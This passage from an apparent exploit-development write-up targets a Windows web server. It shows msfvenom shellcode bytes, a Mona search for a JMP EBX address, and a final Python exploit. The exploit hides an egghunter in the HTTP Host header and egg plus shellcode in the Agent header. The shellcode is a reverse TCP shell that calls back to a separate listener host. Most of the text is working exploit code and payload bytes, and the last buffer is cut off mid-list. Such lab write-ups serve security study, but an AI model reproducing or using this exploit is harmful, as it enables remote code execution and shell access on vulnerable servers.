 ```
buf += b"\x57\xe3\x57\x36\x42\x8e\x58\xbc\x61\x6f\x16\x35\x0f"
buf += b"\x63\xcf\xb5\x5a\xd9\x46\xc9\x70\x75\x04\x58\x1f\x85"
buf += b"\x43\x41\x88\xd2\x04\xb7\xc1\xb6\xb8\xee\x7b\xa4\x40"
buf += b"\x76\x43\x6c\x9f\x4b\x4a\x6d\x52\xf7\x68\x7d\xaa\xf8"
buf += b"\x34\x29\x62\xaf\xe2\x87\xc4\x19\x45\x71\x9f\xf6\x0f"
buf += b"\x15\x66\x35\x90\x63\x67\x10\x66\x8b\xd6\xcd\x3f\xb4"
buf += b"\xd7\x99\xb7\xcd\x05\x3a\x37\x04\x8e\x4a\x72\x04\xa7"
buf += b"\xc2\xdb\xdd\xf5\x8e\xdb\x08\x39\xb7\x5f\xb8\xc2\x4c"
buf += b"\x7f\xc9\xc7\x09\xc7\x22\xba\x02\xa2\x44\x69\x22\xe7"
```

Mona can be used to find addresses with ```JMP EBX``` instruction: ```!mona findwild -s "JMP EBX"```.

![Mona results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_08.png?raw=true)

Since there are several choices we can use: 77C11F13.

## Final exploit ##

After a lots of "try and fail" attempts a place for shell code was finally found. If we place egghunter in Host header and egg+shellcode in Agent header, shellcode will end up in a memory and egghunter will eventually find it.

* Final exploit code is following:

```
#!/usr/bin/python
import socket

host = "172.16.24.213"
port = 80

# JMP EBX: 77C11F13
jmp_ebx = "\x13\x1f\xc1\x77"
x=240

egg = "w00t"

#/usr/bin/msf-egghunter -f python -e w00t -p windows -a x86
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
egghunter += b"\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75"
egghunter += b"\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=172.16.24.204 LPORT=4444 -f python -b "\x00\x0a\x0d"

buf =  b""
buf += b"\xda\xc9\xb8\x19\x14\x16\x98\xd9\x74\x24\xf4\x5f\x2b"
buf += b"\xc9\xb1\x52\x31\x47\x17\x03\x47\x17\x83\xf6\xe8\xf4"
buf += b"\x6d\xf4\xf9\x7b\x8d\x04\xfa\x1b\x07\xe1\xcb\x1b\x73"
buf += b"\x62\x7b\xac\xf7\x26\x70\x47\x55\xd2\x03\x25\x72\xd5"
buf += b"\xa4\x80\xa4\xd8\x35\xb8\x95\x7b\xb6\xc3\xc9\x5b\x87"
buf += b"\x0b\x1c\x9a\xc0\x76\xed\xce\x99\xfd\x40\xfe\xae\x48"
buf += b"\x59\x75\xfc\x5d\xd9\x6a\xb5\x5c\xc8\x3d\xcd\x06\xca"
buf += b"\xbc\x02\x33\x43\xa6\x47\x7e\x1d\x5d\xb3\xf4\x9c\xb7"
buf += b"\x8d\xf5\x33\xf6\x21\x04\x4d\x3f\x85\xf7\x38\x49\xf5"
buf += b"\x8a\x3a\x8e\x87\x50\xce\x14\x2f\x12\x68\xf0\xd1\xf7"
```